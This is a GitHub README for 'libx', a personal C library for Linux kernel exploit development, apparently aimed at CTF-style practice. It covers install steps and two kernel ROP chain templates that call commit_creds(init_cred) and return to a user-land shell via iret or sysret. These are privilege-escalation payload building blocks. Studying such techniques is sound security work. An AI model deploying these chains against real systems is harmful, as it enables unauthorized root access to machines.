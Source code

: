 # libx

It's a personal c language library for kernel exploits. 

# Dependencies

```sh
# If you use fuse
sudo apt install fuse libfuse-dev libkeyutils-dev
```

# Usage

Install `libx`
```bash
git clone git@github.com:n132/libx.git
cd libx
make
make install # you may need sudo
```


uninstall `libx`

```bash
make clean
make uninstall
```

# Example

```c
//gcc main.c -o ./main -lx -w
#include <libx.h>
int main(){
    libxInit();
}
```

# KROP

In kernel ROP, we usually return to user land by `iret` or `sysret`.

## iret
```c
    p[idx++]  = rdi;
    p[idx++]  = init_cred                   - NO_ASLR_BASE + base;
    p[idx++]  = commit_creds                - NO_ASLR_BASE + base;
    p[idx++]  = swapgs_restore_regs_and_return_to_usermode + 103 - NO_ASLR_BASE + base;
    p[idx++]  = *(size_t*) "RDI";
    p[idx++]  = *(size_t*) "RAX";
    p[idx++]  = shell;
    p[idx++]  = user_cs;
    p[idx++]  = user_rflags;
    p[idx++]  = user_sp|8;
    p[idx++]  = user_ss;
```
## sysret
```c
    p[idx++]  = rdi;
    p[idx++]  = init_cred                   - NO_ASLR_BASE + base;
    p[idx++]  = commit_creds                - NO_ASLR_BASE + base;
    p[idx++]  = r11;
    p[idx++]  = user_rflags;
    p[idx++]  = rcx;
    p[idx++]  = shell;
    p[idx++]  = sysret; // pop rsp; swapgs; sysret
    p[idx++]  = user_sp|8;
```



